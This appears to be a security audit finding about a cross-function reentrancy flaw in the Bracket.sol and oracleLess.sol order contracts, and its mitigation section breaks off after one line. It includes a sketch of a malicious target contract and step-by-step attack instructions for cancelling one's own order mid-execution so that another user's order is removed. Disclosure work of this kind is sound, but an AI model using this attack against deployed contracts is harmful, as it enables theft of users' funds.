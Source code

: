 Massive Onyx Sardine

High

# cross function reentrency to cause loss of funds to user by malicious `target`

### Summary

A cross-function reentrancy vulnerability exists `oracleLess.sol` and `Bracket.sol` where malicious contracts can reenter during order execution to manipulate the pending orders array.

### Root Cause

```solidity
function performUpkeep(bytes calldata performData) external override nonReentrant {
    // ... decode and setup
    
    (uint256 swapAmountOut, uint256 tokenInRefund) = execute(
        data.target,//@audit this target address is caller controlled and can be anything
        data.txData,//@audit the txData is caller controlled and can bee anything
        order.amountIn,
        order.tokenIn,
        order.tokenOut,
        bips
    );
    
    //@audit Vulnerable state change after external call
    pendingOrderIds = ArrayMutation.removeFromArray(
        data.pendingOrderIdx,
        pendingOrderIds
    );
}
```

### Attack Path

1. Create malicious `target` contract:

```solidity
contract target {
    function fallback(address from, address to, uint256 amount) external {
        //we fall back to cancel our user first and it will get cancelled normally
        Bracket(msg.sender).cancelOrder(targetOrderId);
        
        //we transfer 1 wei of token out to bracket to buypass the check of minimumAmountOut has to be > change in balance
        tokenOut.safetransfer(msg.sender, 1);
        
        //Its important to know that user can carry thins attack for no cost.
        return true;
    }
}
```

1. Malicious user create an order with max slippage (accepting 0 tokens), his index is 12 in the array 
2. array of pending orders grow to have 60 indices
3. User performUpKeep on his own order reentering   the contract at cancelOrder function to cancell his own order while sending 1 wei of token out to the contract to bypass the check at minAmountOut that checks that balance change has to be > slippage set
4. The `ArrayMutation.removeFromArray` in `performUpKeep` will instead remove another user order index
   
### Impact
If it was intended to not check for `pendingOrderIds[i] == order.orderId` in `modifyOrder` then the impact is unauthorized order cancellation only for other user

If it was a mistake not checking for `pendingOrderIds[i] == order.orderId` in `modifyOrder` (which is actually another bug) then the impact is complete loss of funds for that user that got his order index deleted

### Mitigation

Apply CEI pattern: